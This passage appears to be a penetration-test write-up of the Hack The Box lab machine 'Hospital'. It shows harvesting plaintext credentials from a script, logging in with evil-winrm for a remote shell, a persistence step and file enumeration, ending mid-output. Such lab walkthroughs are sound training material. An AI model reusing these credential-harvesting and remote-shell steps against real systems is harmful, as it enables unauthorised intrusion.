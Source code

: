 ```
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>

*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> cd "/Program Files/gs/gs10.01.1/bin"
*Evil-WinRM* PS C:\Program Files\gs\gs10.01.1\bin> .\gswin64c.exe
GPL Ghostscript 10.01.1 (2023-03-27)
Copyright (C) 2023 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
GS>
```

The user is `drbrown`. `chr!$br0wn` is the Windows account password. The tester tried these credentials to authenticate with the WinRM service on port 5985 from the attacking machine.

```shell
$ evil-winrm -i hospital.htb -u drbrown -p 'chr!$br0wn'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> whoami
hospital\drbrown
```

## Persistence

The tester has found and verified another set of credentials and a simple means of restoring access if the shells are lost. Access to the `drbrown` account may be obtained using the following command:
```shell
$ evil-winrm -i hospital.htb -u drbrown -p 'chr!$br0wn'

...

*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents>
```

The tester continued discovery by enumerating files in the home directory of `drbrown`.

```
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL> gci -file -recurse
...

	Directory: C:\Users\drbrown.HOSPITAL\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/11/2024   3:57 PM             34 user.txt

...

C:\Users\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration

```